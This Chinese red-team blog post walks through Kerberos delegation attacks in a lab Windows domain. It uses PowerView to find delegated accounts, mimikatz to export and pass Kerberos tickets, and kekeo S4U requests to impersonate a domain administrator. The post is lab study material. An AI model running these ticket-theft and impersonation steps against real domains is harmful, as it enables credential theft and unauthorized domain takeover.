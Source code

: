 ```yaml
---
layout:     post
title:    域渗透-Kerberos委派学习
subtitle:   Kerberos委派学习
date:       2020-02-19
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 域渗透-Kerberos委派学习

## 委派
举个例子，在域中如果出现A主机使用Kerberos身份验证访问域中的服务http，而http再利用A的身份去请求域中的服务sql，这个借用身份验证过程就可以理解为委派。  
而委派主要分为非约束委派和约束委派两个方式。  
- 非约束委派  
非约束委派在Kerberos中实现时，User会将从KDC处得到的TGT（入场券）发送给访问的服务1（可以是任意服务），服务1拿到TGT之后可以通过TGT申请TS（票据）访问域内任意其他服务，所以被称为非约束委派。  
- 约束委派  
由于非约束委派的不安全性，微软在windows2003中发布了约束委派的功能。约束委派在Kerberos中User不会直接发送TGT给服务，而是对发送给service1的认证信息做了限制，不允许service1代表User使用这个TGT去访问其他服务。这里包括一组名为S4U2Self（Service for User to Self）和S4U2Proxy（Service forUser to Proxy）的Kerberos协议扩展。  

## 非约束委派
### 非约束委派设置
我随便设置了一个。
```
setspn -A http/owa.god.org:80 liukaifeng01
```  
![200219_1](/img/200219_setspn.png)  
域控上把账号属性中的委派设置为完全信任。  
![200219_2](/img/200219_trust.png)   
### 发现非约束委派主机或账户  
用到一个框架PowerSploit中的PowerView。建议两个分支都下。  
这里先用到master分支。切到Recon目录，打开powershell。    
先查询用户。  
```
Imort-Module ./PowerView.ps1  
Get-NetUser -Unconstrained -Domain god.org
```  
![200219_3](/img/200219_netuser.png)  
查询主机。  
```
Get-NetComputer -TrustedToAuth -Domain god.org
```
![200219_4](/img/200219_netcomputer.png)  
### 非约束委派利用
先在域控上登陆域管，访问下域成员主机的smb服务（生成下TGT）。  
![200219_12](/img/200219_dirstu.png)  
然后在域成员上用mimikatz导出所有的内存中的票据。（需要管理员权限的）   
```
kerberos::tickets /export
```
![200219_5](/img/200219_kirbi.png)   
此时去域成员去访问域控的smb是拒绝访问的。  
![200219_6](/img/200219_dirfail.png)  
然后导入票据。  
```
kerberos::ptt xxxxxxxx.kirbi
```
这时候再试试访问可以发现成功了。  
![200219_7](/img/200219_dirsecuss.png)    


## 约束委派
### 约束委派设置
如图在委派设置中设置为仅信任指定服务。  
![200219_7](/img/200219_untrust.png)  
### 发现约束委派主机或账户 
用到的是PowerSploit的dev分支。  
先查询用户。  
```
Imort-Module ./PowerView.ps1  
Get-DomainUser -TrustedToAuth -Domain god.org
```  
![200219_8](/img/200219_domainuser.png)  
查询主机。  
```
Get-DomainComputer -TrustedToAuth -Domain god.org
```
![200219_9](/img/200219_domaincomputer.png)   
### 约束委派利用
首先用kekeo.exe去申请TGT。  
```
tgt::ask /user:liukaifeng01 /domain:god.org /password:123qwe!@# /ticket:liukaifeng01.kirbi
```
![200219_10](/img/200219_tgtask.png)   
然后去利用这个TGT申请TGS票据，试了好几次失败了。  
找了下原因是因为策略问题，修改了下本地安全策略的kerberos加密方式为RC4加密，然后更新策略。   
再申请一次，成功了。   
```
tgs::s4u /tgt:TGT_liukaifeng01@GOD.ORG_krbtgt~gof.org@GOD.ORG.kirbi /user:administrator@god.org /service:cifs/owa.god.org
```
![200219_11](/img/200219_tgss4u.png)  
然后用mimikatz导入票据再去访问域控，可以发现已经可以了。  
![200219_13](/img/200219_dirsuccess2.png)  


## 参考
[https://xz.aliyun.com/t/7217#toc-0](https://xz.aliyun.com/t/7217#toc-0)  
